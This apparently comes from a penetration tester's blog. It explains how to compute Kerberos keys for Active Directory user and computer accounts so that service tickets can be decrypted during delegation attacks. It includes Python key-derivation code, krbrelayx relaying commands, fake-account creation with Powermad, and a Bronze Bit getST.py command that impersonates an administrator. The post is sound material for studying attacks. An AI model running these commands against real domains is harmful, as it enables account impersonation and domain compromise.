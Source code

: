 ```yaml
---
layout: post
title: "A Note on Calculating Kerberos Keys for AD Accounts"
date: 2021-05-21 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, kerberos, krbrelayx, python, impacket, bronze-bit]
---
```


A short memo on how to properly calculate Kerberos keys for different types of Active Directory accounts in context of decrypting TGS tickets during delegation attacks.

<!--cut-->

---

In order to successfully decrypt service TGS we must calculate its Kerberos key first. To do this we should obtain account's password and form the salt:

* For a user/service account the salt is built as uppercase Kerberos realm name + case sensitive username.
* For a computer account the salt is built as uppercase Kerberos realm name + the word `host` + lowercase FQDN hostname.

Let's say the domain name (Kerberos realm) is `megacorp.local`, then for user `Bob_Adm` the salt will be `MEGACORP.LOCALBob_Adm`, and for computer `SRV01` the salt will be `MEGACORP.LOCALhostsrv01.megacorp.local`.

Based on the "Relaying" Kerberos attack [toolkit](https://github.com/dirkjanm/krbrelayx) (by [@dirkjanm](https://twitter.com/_dirkjan)) the keys can be calculated with the following Python code using [impacket](https://github.com/SecureAuthCorp/impacket):

```python
#!/usr/bin/env python3

from binascii import unhexlify, hexlify

from impacket.krb5 import constants
from impacket.krb5.crypto import Key, string_to_key
from Cryptodome.Hash import MD4

allciphers = {
	'rc4_hmac_nt': int(constants.EncryptionTypes.rc4_hmac.value),
	'aes128_hmac': int(constants.EncryptionTypes.aes128_cts_hmac_sha1_96.value),
	'aes256_hmac': int(constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value)
}


def printKerberosKeys(password, salt):
	for name, cipher in allciphers.items():
		if cipher == 23:
			md4 = MD4.new()
			md4.update(password)
			key = Key(cipher, md4.digest())
		else:
			fixedPassword = password.decode('utf-16-le', 'replace').encode('utf-8', 'replace')
			key = string_to_key(cipher, fixedPassword, salt)

		print(f'    * {name}: {hexlify(key.contents).decode("utf-8")}')


def printMachineKerberosKeys(domain, hostname, hexpassword):
	salt = b'%shost%s.%s' % (domain.upper().encode('utf-8'), hostname.lower().encode('utf-8'), domain.lower().encode('utf-8'))
	rawpassword = unhexlify(hexpassword)
	print(f'{domain.upper()}\\{hostname.upper()}$')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)


def printUserKerberosKeys(domain, username, rawpassword):
	salt = b'%s%s' % (domain.upper().encode('utf-8'), username.encode('utf-8'))
	rawpassword = rawpassword.encode('utf-16-le')
	print(f'{domain.upper()}\\{username}')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)
```

When performing the ["Relaying" Kerberos attack](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/) against an unconstrained delegation **computer** account, the adversary will use krbrelayx.py as follows:

```console
# Calculate the AES key automatically
~$ krbrelayx.py --krbpass 'Passw0rd!' --krbsalt 'MEGACORP.LOCALhostsrv01.megacorp.local'
# Pre-calculate the AES key and pass it as an argument
~$ krbrelayx.py -aesKey 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
```

```python
printMachineKerberosKeys(
	domain='megacorp.local',
	hostname='SRV01',
	hexpassword='16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d'
)

"""
MEGACORP.LOCAL\SRV01$
    * Salt: MEGACORP.LOCALhostsrv01.megacorp.local
    * rc4_hmac_nt: 1b8112a5c2eb2c45ba045efdca7c4848
    * aes128_hmac: 7c91cca5c6a7c1f961d977a7f3332273
    * aes256_hmac: 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
"""
```

When performing this attack against an unconstrained delegation **user** account, the adversary does not need to calculate the salt because the ticket it encrypted with RC4 by default (not salted NT hash used as key):

```console
~$ krbrelayx.py -hashes :fc525c9683e8fe067095ba2ddc971889
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='Bob_Adm',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\Bob_Adm
    * Salt: MEGACORP.LOCALBob_Adm
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 79505a4518150188087e722dec3b2567
    * aes256_hmac: b628f4549bd8c9e18b9573075a2db50a08aff7982be3185923af87ec2bffddc5
"""
```

On the other hand, when performing the [Bronze Bit attack](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) (by [@jakekarnes42](https://github.com/jakekarnes42)), the adversary leverages a fake service (see [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)) account to request the ticket which brings back AES encryption with salt (PBKDF2 from salted password used as key). Despite the fact that Powermad's function for adding fake accounts is called `New-MachineAccount`, it's actually a **service** account and the Kerberos keys should be calculated with `printUserKerberosKeys` function in terms of this note:

```console
PS > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
~$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' megacorp.local/fakemachine -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey 211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98 -force-forwardable
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='fakemachine',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\fakemachine
    * Salt: MEGACORP.LOCALfakemachine
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 3a2a5d368927e4ac0948c76b2e5e998b
    * aes256_hmac: de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3
"""
```

The same calculation can be done with [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372) or [Mimikatz](https://github.com/gentilkiwi/mimikatz) `kerberos::hash` module.
